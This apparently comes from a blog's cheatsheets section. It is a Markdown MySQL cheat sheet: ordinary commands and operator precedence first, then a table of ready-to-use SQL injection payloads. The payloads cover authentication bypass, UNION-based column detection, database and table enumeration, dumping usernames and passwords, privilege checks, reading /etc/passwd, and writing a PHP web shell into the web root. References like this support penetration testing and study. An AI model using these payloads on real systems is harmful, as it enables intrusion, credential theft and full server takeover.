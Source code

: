 ```yaml
---
layout: post
category: cheatsheets
---
```


### Table of Contents

- [MySQL](#mysql)
    - [General Commands](#general-commands)
    - [Mysql Operator Precedence](#mysql-operator-precedence)
    - [SQL Injection](#sql-injection)


## [MySQL](#mysql)

| **Command**   | **Description**   |
| --------------|-------------------|
| [**General Commands**](#general-commands) |
| ```mysql -u root -h server -P 3306 -p``` | login to mysql database |
| ```SHOW DATABASES``` | List available databases |
| ```USE users``` | Switch to database |
| **Tables** |
| ```CREATE TABLE logins (id INT, ...)``` | Add a new table |
| ```SHOW TABLES``` | List available tables in current database |
| ```DESCRIBE logins``` | Show table properties and columns |
| ```INSERT INTO table_name VALUES (value_1,..)``` | Add values to table |
| ```INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)``` | Add values to specific columns in a table |
| ```UPDATE table_name SET column1=newvalue1, ... WHERE <condition>``` | Update table values |
| **Columns** |
| ```SELECT * FROM table_name``` | Show all columns in a table |
| ```SELECT column1, column2 FROM table_name``` | Show specific columns in a table |
| ```DROP TABLE logins``` | Delete a table |
| ```ALTER TABLE logins ADD newColumn INT``` | Add new column |
| ```ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn``` | Rename column |
| ```ALTER TABLE logins MODIFY oldColumn DATE``` | Change column datatype |
| ```ALTER TABLE logins DROP oldColumn``` | Delete column |
| **Output** |
| ```SELECT * FROM logins ORDER BY column_1``` | Sort by column |
| ```SELECT * FROM logins ORDER BY column_1 DESC``` | Sort by column in descending order |
| ```SELECT * FROM logins ORDER BY column_1 DESC, id ASC``` | Sort by two-columns |
| ```SELECT * FROM logins LIMIT 2``` | Only show first two results |
| ```SELECT * FROM logins LIMIT 1, 2``` | Only show first two results starting from index 2 |
| ```SELECT * FROM table_name WHERE <condition>``` | List results that meet a condition |
| ```SELECT * FROM logins WHERE username LIKE 'admin%'``` | List results where the name is similar to a given string |

## [MySQL Operator Precedence](#mysql-operator-precedence)
* Division (```/```), Multiplication (```*```), and Modulus (```%```)
* Addition (```+```) and Subtraction (```-```)
* Comparison (```=```, ```>```, ```<```, ```<=```, ```>=```, ```!=```, ```LIKE```)
* NOT (```!```)
* AND (```&&```)
* OR (```||```)

## [SQL Injection](#sql-injection)
| **Payload** | **Description**   |
| ------------|-------------------|
| **Auth Bypass** |
| ```admin' or '1'='1``` | Basic Auth Bypass |
| ```admin')-- -``` | Basic Auth Bypass With comments |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |
| **Union Injection** |
| ```' order by 1-- -``` | Detect number of columns using ```order by``` |
| ```cn' UNION select 2,2,3-- -``` | Detect number of columns using Union injection add a value everytime |
| ```cn' UNION select 1,@@version,3,4-- -``` | Basic Union injection, Find where you can return data |
| ```UNION select username, 2, 3, 4 from passwords-- -``` | Union injection for 4 columns |
| **DB Enumeration** |
| ```SELECT @@version``` | Fingerprint MySQL with query output |
| ```SELECT SLEEP(5)``` | Fingerprint MySQL with no output |
| ```cn' UNION select 1,database(),2,3-- -``` | Current database name |
| ```cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -``` | List all databases |
| ```cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -``` | List all tables in a specific database |
| ```cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -``` | List all columns in a specific table |
| ```cn' UNION select 1, username, password, 4 from dev.credentials-- -``` | Dump data from a table in another database |
| **Privileges** |
| ```cn' UNION SELECT 1, user(), 3, 4-- -``` | Find current user |
| ```cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -``` | Find if user has admin privileges |
| ```cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -``` | Find if all user privileges |
| ```cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -``` | Find which directories can be accessed through MySQL |
| **File Injection** |
| ```cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -``` | Read local file |
| ```select 'file written successfully!' into outfile '/var/www/html/proof.txt'``` | Write a string to a local file |
| ```cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -``` | Write a web shell into the base web directory |
